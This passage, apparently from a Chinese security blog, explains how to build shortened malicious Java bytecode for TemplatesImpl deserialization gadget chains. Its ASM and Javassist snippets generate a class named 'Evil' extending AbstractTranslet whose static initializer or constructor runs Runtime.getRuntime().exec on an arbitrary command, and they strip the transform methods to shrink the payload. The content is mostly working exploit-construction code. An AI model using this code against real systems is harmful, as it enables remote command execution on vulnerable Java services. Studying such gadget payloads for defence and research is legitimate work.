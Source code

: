 我们用来生成恶意字节码的类必须继承自 `AbstractTranslet` 抽象类，所以必须重写两个 `transform` 方法

如果不进行重写代码会导致编译不通过，无法执行，但是编译不通过不代表非法，我们可以通过手段直接构造对应的字节码！

1. 通过 ASM 删除方法
    
    ```java
    @Override
    public MethodVisitor visitMethod(int access, String name, String descriptor, String signature, String[] exceptions) {
        if (name.equals("transform")) {
            return null;
        }
        MethodVisitor mv = super.visitMethod(access, name, descriptor, signature, exceptions);
        return new ShortMethodAdapter(this.api, mv, name);
    }
    ```
2. 通过Javassist直接构造
    
    ```java
    private static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("Evil");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("        try {\n" +
                                "            Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                                "        } catch (Exception ignored) {\n" +
                                "        }");
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }
    ```

所以 javassist 中有一部分的缩短也是因为这里，在我一开始的例子中并没有处理 transform 重写这一部分

不过这里的删除并不是所有方法都能删除，比如不存在构造方法的情况下就无法删除空参构造。

在这种时候，我们可以删除静态代码块，将代码写入空参构造

```java
ClassPool pool = ClassPool.getDefault();
CtClass ctClass = pool.makeClass("Evil");
CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
ctClass.setSuperclass(superClass);
CtConstructor constructor = CtNewConstructor.make("    public Evil(){\n" +
                                                  "        try {\n" +
                                                  "            Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                                                  "        }catch (Exception ignored){}\n" +
                                                  "    }", ctClass);
ctClass.addConstructor(constructor);
byte[] bytes = ctClass.toBytecode();
ctClass.defrost();
return bytes;
```
